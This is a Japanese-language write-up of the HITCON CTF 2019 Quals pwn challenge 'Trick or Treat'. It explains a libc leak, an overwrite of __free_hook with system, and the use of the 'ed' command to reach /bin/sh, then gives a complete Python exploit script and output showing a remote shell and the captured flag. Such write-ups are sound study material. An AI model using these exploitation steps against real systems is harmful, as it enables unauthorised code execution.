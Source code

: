 # [pwn 234pts] Trick or Treat - HITCON CTF 2019 Quals
64ビットでいろいろ有効です。
```
$ checksec -f trick_or_treat
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Full RELRO      No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   No Symbols      No      0               1       trick_or_treat
```

最初に任意サイズでmallocでき、そこで得られたアドレスから指定のオフセットだけ離れた場所に2回qwordを書き込めます。mallocされたアドレスは貰えます。
とりあえずlibc leakが無いと始まらないのでmallocで巨大チャンクを確保し、libcのアドレスを取得します。（隣接するので）
あとは`__malloc_hook`をone gadgetに書き換えてscanfに大量の入力を入れれば終わり！と思ったのですが、どのone gadgetも動きませんでした。

`__free_hook`でもone gadgetは動かず、最初はexitを使う方法を考えたのですが、よくみたら`exit`じゃなくて`_exit`が呼ばれていました。scanfのコード読んで抜け穴が無いかとかいろいろ調べたんですが、結果として`__free_hook`を`system`に変更する方向で落ち着きました。
scanfでは`%lx`を読んでいるので`[0-9a-fA-F\+\-]+`みたいなデータしか読んでくれません。そこで`/bin`にhexで表記できる便利なコマンドが無いか調べた結果、`ed`コマンドを見つけました。
edといえば`/bin/sh`を起動できることで有名なので、これを使います。
```python
from ptrlib import *

def offset(addr):
    return (addr - ptr) // 8

libc = ELF("./libc.so.6")
#sock = Process("./trick_or_treat")
sock = Socket("3.112.41.140", 56746)

# leak libc base
payload = "9" * 8
sock.sendlineafter(":", payload)
sock.recvuntil(":")
ptr = int(sock.recvline(), 16)
libc_base = ptr - 0x10 + 0x5f5f000
logger.info("libc base = " + hex(libc_base))

# overwrite __free_hook
payload  = hex(offset(libc_base + libc.symbol("__free_hook")))[2:]
payload += " "
payload += hex(libc_base + libc.symbol("system"))[2:]
sock.sendlineafter(":", payload)

# get the shell!
payload  = "1" + "a"
payload += "a" * (0x800 - len(payload))
sock.sendlineafter(":", payload + " ed")
sock.sendline("!/bin/sh")

sock.interactive()
```

いぇい。
```
$ python solve.py 
[+] __init__: Successfully connected to 3.112.41.140:56746
[+] <module>: libc base = 0x7f5d130ea000
[ptrlib]$ cat /home/trick_or_treat/flag
hitcon{T1is_i5_th3_c4ndy_for_yoU}
[ptrlib]$
```

# 感想
めちゃ面白かったです。HITCON真面目に参加しとけばよかった。
